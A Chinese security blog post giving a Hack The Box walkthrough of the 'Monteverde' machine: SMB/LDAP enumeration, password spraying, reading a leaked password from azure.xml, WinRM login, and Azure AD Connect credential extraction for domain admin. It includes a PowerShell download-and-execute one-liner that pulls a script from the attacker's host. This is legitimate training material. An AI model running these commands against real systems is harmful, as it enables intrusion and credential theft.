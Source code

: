 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/P7WoOZMA3udVKMrvpQN5iA)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **181** 篇文章，本公众号会每日分享攻防渗透技术给大家。

靶机地址：https://www.hackthebox.eu/home/machines/profile/223

靶机难度：中级（4.3/10）

靶机发布日期：2020 年 3 月 23 日

靶机描述：

Monteverde is an easy Windows machine that features Azure AD Connect. The domain is enumerated and a user list is created. Through password spraying, the SABatchJobs service account is found to have the username as a password. Using this service account, it is possible to enumerate SMB Shares on the system, and the $users share is found to be world-readable. An XML file used for an Azure AD account is found within a user folder and contains a password. Due to password reuse, we can connect to the domain controller as mhope using WinRM.

Enumeration shows that Azure AD Connect is installed. It is possible to extract the credentials for the account that replicates the directory changes to Azure (in this case the default domain administrator).

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/rKdlf9hSNpfCqPA8UdaiceRUpg1OKWoe0SeG5n9kHNoZvhH0T50blgJBdCnTeXOVV9P1FyQTd7ZvyVg3zKdXEfg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/N97UqqP68bKia0MeqTicbrbqUzibtGia5wC1gXBWC1KX0sZibHgrFnbicoUj1kvg7wH8L0m7RYCHOE5fatKxC8ABRiaNg/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/LcN5ZibxypT4ZquODsTZNAnXQXiaroUzDVrc8jrXcHVIIZ0PU62PUeJp0qIpWyHJwCavXTBs5rsicPKULd2EA7vicw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLUlQUrKuqfibkU39uDYJBZvuBNHRr3P24fiben1o8oeyysjXnew5Gufsw/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.172...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLMRicmrqcChEO1LaYG2h5NgKITWRhZsaeP3SIXrSRZDVdQdCDSaAGAkA/640?wx_fmt=png)

可看到 nmap 开了很多端口，其中有端口 53（DNS），389（LDAP）和 445（SMB）等.... 和上一台一样开始枚举 LDAP..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLnEO462kkFV6bia8UwzaFJ4z11h6LGUxtU9xS4GU1EJtpSamz4ONt46A/640?wx_fmt=png)

```
enum4linux -a 10.10.10.172
```

枚举获得了用户名信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLc5Pl2zCRVZoT2AurfLQRmAY2dkN3ibgysavTnOm7E4Ria7ico7gzLaRkQ/640?wx_fmt=png)

```
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
```

这里通过 crackmapexec 测试，发现用户名和密码是一致的... 利用 smbmap 查看了 smb 下有什么信息...

发现 users，继续枚举发现了目录下存在 azure.xml 文件，可能存在 azure 漏洞利用了....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLJqII9WPm6uNCmwcibyILWfzs0oI4avWvEBBibdc56COJoTDSWZxuxldQ/640?wx_fmt=png)

```
smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
```

下载到本地，打开发现了 passwd 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLg1NaZ9cGRcogrJzQMdtQ1iat6lfIIapeO0w7bAOCia3cTZMgd9qoadXw/640?wx_fmt=png)

由于该配置文件位于 mhope 的目录中，这里猜想用户就是 mhope...

尝试利用 winrm 成功登录... 获得了 user_flag 信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLaYxCjR9uPexiaXicUIV1qWODSiaiaOHG2ZXNibIYGLYlcLy2JzjxaXbSgNA/640?wx_fmt=png)

由于前面遇到了 azure.xml 信息，直接枚举了 mhope 用户群组，发现了 * Azure Admins...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLtmTLGECTrChQmUFgHibbedwKfa1oH2opawib3MichKkj9vSfu1hI7oHicw/640?wx_fmt=png)

查看到了很多应用程序...

https://blog.xpnsec.com/azuread-connect-for-redteam/   --- 如何利用 Azure 漏洞

Azure 漏洞较严重，可以直接获得用户名密码信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLA6FVbnnO5icEI3supwbUmssd6q5CZ8FLXjoMOD8H5Wce7GToS2EXsaQ/640?wx_fmt=png)

```
iex(new-object net.webclient).downloadstring('http://10.10.14.2/Azureshell.ps1')
https://myitworld.azurewebsites.net/2015/12/14/access-sql-server-integrated-security-different-windows-credentials-powershell/  ---EXP
https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1  --EXP
```

这里的 poc 谷歌上很多... 也很多解释了 Azure exploit 的方法... 感兴趣的多了解下...

直接利用脚本获得了 administrator 用户名密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPPMqGcQzd3MRMicNMGlM7qLtjI9QPibicgA9SAia5icwjntesRebpxVLrtV3K0GibUnWUYEJSwAQGEic4bA/640?wx_fmt=png)

利用 winrm 登录了 administrator 用户后，获得了 root_flag 信息...

好久没打 windows 渗透了，回来打两台发现挺简单的...

两台都是 smb 和 ldap 中信息收集然后提权....

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/rKdlf9hSNpfCqPA8UdaiceRUpg1OKWoe0SeG5n9kHNoZvhH0T50blgJBdCnTeXOVV9P1FyQTd7ZvyVg3zKdXEfg/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)